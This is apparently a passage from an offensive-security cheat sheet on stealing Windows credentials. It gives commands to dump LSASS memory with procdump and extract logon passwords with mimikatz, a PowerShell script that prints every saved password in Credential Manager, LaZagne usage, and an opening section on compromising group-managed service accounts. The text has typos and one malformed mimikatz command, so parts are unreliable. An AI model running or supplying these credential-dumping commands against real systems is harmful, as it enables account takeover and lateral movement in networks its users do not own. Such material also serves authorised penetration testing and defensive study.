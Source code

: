 We can use procdump to dump the memory of lsass.exe and then use mimikatz offline in order to perform

```bash
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

Mimikatz can be used offline in order to read the contents of the LSASS dump and especially sections that contain logon passwords.

```bash
mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```

##### Credential Manager

Credential Manager lets you view and delete your saved credentials for signing in to websites, connected applications, and networks.

All of the credentials are stored in a credentials folder which you will find at this location *%Systemdrive%\Users\\<Username>\AppData\Local\Microsoft\Credentials*

Credentials saved in credential manager are of two types:

- Web credentials: As Edge and widows are the product of the same company, credentials manager has access to the stored information of Edge browser too, in order to increase safekeeping of saved credentials. It also stores the password of order application provided by Microsoft such as skype, Microsoft office, etc.
- Windows credentials: Under this category, all the windows login credentials can be found. Along with any system that is connected in the network.

The following script can be used to retreive password from the credential manager.

```powershell
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

Mimikatz can be used to retreive password from the credential manager.

```bash
mimikatz.exe
mimikatz # privilege::debug            # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa:logonpassword      # Under credman, you will see the password
```

LaZagne can be used to retreive password from the credential manager.

```bash
laZagne.exe
```

##### Group Managed Service Accounts

The goal is to compromised one of those accounts to get their rights.

The **msDS-ManagedPassword** attribute contains a BLOB with password information for group-managed service accounts.
